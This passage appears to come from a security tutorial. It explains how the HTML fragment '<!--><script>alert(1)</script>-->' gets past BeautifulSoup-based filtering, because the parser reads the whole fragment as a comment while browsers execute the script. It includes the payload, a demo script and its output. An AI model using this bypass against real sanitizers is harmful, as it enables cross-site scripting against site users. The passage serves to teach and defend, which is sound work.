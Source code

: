 ```python
from bs4 import BeautifulSoup
html = """
  <div>
    test
    <!--><script>alert(1)</script>-->
  </div>
"""
tree = BeautifulSoup(html, "html.parser")
for element in tree.find_all():
  print(f"name: {element.name}")
  print(f"attrs: {element.attrs}")
```

The output is:

```
name: div
attrs: {}
```

It seems normal, but if you open the above HTML in a browser, you will see our beloved pop-up window, indicating that JavaScript has been executed and the check by BeautifulSoup has been successfully bypassed.

The bypass is based on the difference in parsing between browsers and BeautifulSoup for the following HTML:

```html
<!--><script>alert(1)</script>-->
```

BeautifulSoup's HTML parser treats this as a comment enclosed by `<!--` and `-->`, so it won't parse any tags or attributes.

However, according to the [HTML5 spec](https://html.spec.whatwg.org/multipage/syntax.html#comments), `<!-->` is a valid empty comment, so the above becomes a comment followed by the `<script>` tag and the text `-->`.

![](pics/06-02.png)
